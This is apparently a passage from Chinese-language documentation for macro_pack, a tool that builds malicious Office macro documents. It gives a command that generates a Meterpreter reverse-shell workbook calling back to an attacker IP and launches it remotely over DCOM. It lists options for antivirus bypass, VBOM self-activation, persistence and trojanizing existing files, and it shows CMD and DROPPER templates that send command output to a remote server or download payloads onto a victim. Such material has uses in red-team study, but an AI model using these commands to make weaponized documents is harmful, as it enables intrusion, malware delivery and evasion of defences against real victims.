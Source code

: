 ```
echo 192.168.0.5 4444 | macro_pack.exe -t METERPRETER -o -G "\\192.168.0.8\c$\users\username\meter.xlsm" --dcom="\\192.168.0.8\c$\users\username\meter.xlsm"
```

#### macro_pack Pro支持
```
-b, --background    Run the macro in background (in another instance of office application)
  --vbom-encode   Use VBA self encoding to bypass antimalware detection and enable VBOM access (will exploit VBOM self activation vuln).
                --start-function option may be needed.
  --av-bypass  Use various tricks  efficient to bypass most av (combine with -o for best result)
  --keep-alive    Use with --vbom-encode option. Ensure new app instance will stay alive even when macro has finished
  --persist       Use with --vbom-encode option. Macro will automatically be persisted in application startup path
                  (works with Excel documents only). The macro will then be executed anytime an Excel document is opened (even non-macro documents).
  -T, --trojan=OUTPUT_FILE_PATH   Inject macro in an existing MS office file. 
                  Supported files are the same as for the -G option.
                  Files will also be converted to approriate format, ex: pres.pptx will become pres.pptm
                  If file does not exist, it will be created (like -G option)
  --stealth      Anti-debug and hiding features
  --dcom=REMOTE_FILE_PATH Open remote document using DCOM for pivot/remote exec if psexec not possible for example.
                 This will trigger AutoOpen/Workboo_Open automatically. 
                 If no auto start function, use --start-function option to indicate which macro to run.
```

#### 模板使用
使用 -t, –template=TEMPLATE_NAME结合其他选项来调用模板

#### HELLO
只打印一条hello消息并了解宏
```
echo "@Author" | macro_pack.exe -t HELLO -G hello.pptm
```

#### CMD
执行命令行并将结果发送到远程http服务器
```
# Catch result with any webserver or netcat
nc -l -p 7777
```

#### DROPPER
为此模板提供文件url和目标文件路径
```
echo <file_to_drop_url> "<download_path>" | macro_pack.exe -t DROPPER -o -G dropper.xls
```

#### DROPPER2
为此模板提供文件url和目标文件路径
```
echo <file_to_drop_url> "<download_path>" | macro_pack.exe -t DROPPER2 -o -G dropper.xlsm
```

